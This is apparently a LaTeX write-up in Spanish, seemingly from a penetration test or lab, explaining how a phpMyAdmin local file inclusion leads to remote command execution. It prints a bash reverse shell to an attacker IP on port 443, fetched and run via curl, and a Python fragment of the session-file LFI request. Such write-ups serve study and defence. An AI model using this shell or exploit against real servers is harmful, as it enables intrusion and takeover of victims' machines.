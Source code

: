 \documentclass[a4paper]{article} %
\begin{document}
  En este caso, se esta ejecutando un comando que mediante por \textbf{curl}, interprete un script en bash el cual dispone del siguiente contenido:

  \vspace{0.3cm}
  \begin{lstlisting}[language=Bash, caption=Script en Bash encargado de entablar la conexión]

  #!/bin/bash

  bash -i >& /dev/tcp/192.168.100.111/443 0>&1

  \end{lstlisting}
  Este script esta alojado en el servidor del atacante, evitando de esta forma dejar archivos residuales en el servidor victima. Una vez ejecutado el comando el atacante gana acceso al servidor teniendo control de la maquina como el usuario '\textbf{apache}'.

  Tal y como se puede apreciar en el script, principalmente lo que sucede es que el codigo se aprovecha de una vulnerabilidad de tip \textbf{LFI} existente en esta version concreta de PhpMyAdmin para conseguir la ejecucion remota de comandos.

  \vspace{0.3cm}

  \begin{lstlisting}[language=Python, caption=Porcion de codigo correspondiente a la explotacion del LFI]
  session_id = cookies.get_dict()['phpMyAdmin']
url3 = url + "/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_{}".format(session_id)
r = requests.get(url3, cookies = cookies)
  \end{lstlisting}
  \vspace{0.3cm}
  \begin{definicion}
    LFI (Local File Inclusion) Es una vulnerabilidad de seguridad en aplicaciones web que permite que un atacante pueda acceder a archivos locales del servidor a través de la inclusionde archivos locales en una pagina web
  \end{definicion}

  \clearpage

  A través del LFI, se consigue apuntar a un recurso el cual almacena sesiones que representan informacion relacionada con las diferentes sesiones activas en el uso del lado de los usuarios.

  Aprovechando esta lectura y la propia sesion del usuario, lo que se hace es que a través de una \textbf{Query SQL} se logra introducir una consulta la cual contiene codigo PHP visible desde los archivos de sesion del usuario a través del LFI. Esto en consecuencia conduce a una ejecucion remota de comandos, dado que el codigo PHP es intepretado por el servidor.
\end{document}
